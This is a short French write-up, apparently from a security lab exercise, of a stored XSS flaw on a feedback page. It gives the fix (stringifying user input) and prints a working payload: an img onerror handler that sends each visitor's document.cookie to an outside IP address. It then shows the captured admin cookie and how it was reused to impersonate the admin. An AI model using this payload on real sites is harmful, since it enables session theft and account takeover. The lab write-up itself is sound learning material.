 Security breach name 	: XSS (Cross-site scripting) persistant

Principle 				: Insérer du code html/js/php dans un input pour essayer d'accéder à des données sensibles ou modifier la perception du site aux autres utilisateurs.

Solve 					: Stringifier les valeurs envoyé par le user.

In case 				: Sur la page feedback, un seul des deux inputs stringify la valeur entré par le user, le second ne fait que limiter la taille de son input,
							il nous a donc suffit de changer ca taille maximum pour ensuite y insérer du code nous permettant d'envoyer le cookie de session de chaques users se rendant sur la page de feedback.
						Il faut utiliser un autre browser que Google Chrome car celui-ci bloque ce genre de contenu.

							code 	: <img src="azerty.jpg" onerror="window.location='http://46.101.40.236:3000/get_cookie_xss.php?cookie='+document.cookie;" hidden>
							result 	: http://46.101.40.236:3000/get_cookie_xss.php?cookie=I_am_admin=68934a3e9455fa72420237eb05902327


							Il nous restait plus qu'à changer le cookie I_am_admin pour se faire passer pour celui-ci.